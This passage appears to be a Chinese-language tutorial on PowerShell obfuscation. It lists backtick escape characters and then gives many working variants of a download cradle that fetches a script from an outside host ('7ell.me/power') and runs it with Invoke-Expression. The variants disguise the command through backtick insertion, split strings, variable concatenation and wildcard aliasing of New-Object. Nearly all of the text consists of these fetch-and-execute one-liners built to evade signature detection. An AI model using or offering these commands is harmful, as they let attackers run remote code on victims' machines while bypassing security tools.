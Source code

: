 
```
0     Null
    `a    警报
    `b    退格
    `f    换页
    `n    换行
    `r    回车
    `t    水平制表
    `v    垂直制表
```

转义符号加在其他字符前不影响字符的意思，避免在0,a,b,f,n,r,t,v的小写字母前出现即可。



```
Invoke-Expression (New-Object Net.WebClient)."Down`loadString"('h'+'ttp://7ell.me/power')
Invoke-Expression (New-Object Net.WebClient)."D`o`wn`l`oad`Str`in`g"('h'+'ttp://7ell.me/power') 
Invoke-Expression (New-Object Net.WebClient)."D`o`w`N`l`o`A`d`S`T`R`in`g"('h'+'ttp://7ell.me/power')
```

同样可以使用在Net.Webclient上

```
Invoke-Expression (New-Object "`Ne`T.`Web`Cli`ent")."Down`l`oadString"('h'+'ttp://7ell.me/power')
```

括号代替空格，或者多个定义变量来连接替换



```
Invoke-Expression (New-Object("`Ne`T.`Web`Cli`ent"))."Down`l`oadString"('h'+'ttp://7ell.me/power')
$v1="Net.";$v2="WebClient";Invoke-Expression (New-Object $v1$v2)."Down`l`oadString"('h'+'ttp://7ell.me/power')
```

**2.2 简写与通配符***

e.g Get-Comamd New-Ob*

以下几种处理都可以代替 Get-Command New-Object ; Get-Comamnd 可简写为 GCM



```
&amp;(Get-Command New-Obje*)     &amp;(Get-Command *w-O*)     &amp;(GCM *w-O*)     &amp;(COMMAND *w-*ct)
.(Get-Command New-Obje*)     .(Get-Command *w-O*)     .(GCM *w-O*)     .(COMMAND *w-*ct)
$var1="New";$var2="-Object";$var3=$var1+$var2;&amp;(GCM $var3)
```

结合其他方法混淆



```
Invoke-Expression (&amp;(Get-Command New-Obje*)"Net.WebClient")."DownloadString"('h'+'ttp://7ell.me/power')
$var1="New";$var2="-Object";$var3=$var1+$var2;Invoke-Expression (&amp;(GCM $var3)"Net.WebClient")."DownloadString"('h'+'ttp://7ell.me/power')
ie`x (.(GCM *w-O*)"Net.WebClient")."DownloadString"('h'+'ttp://7ell.me/power')
```
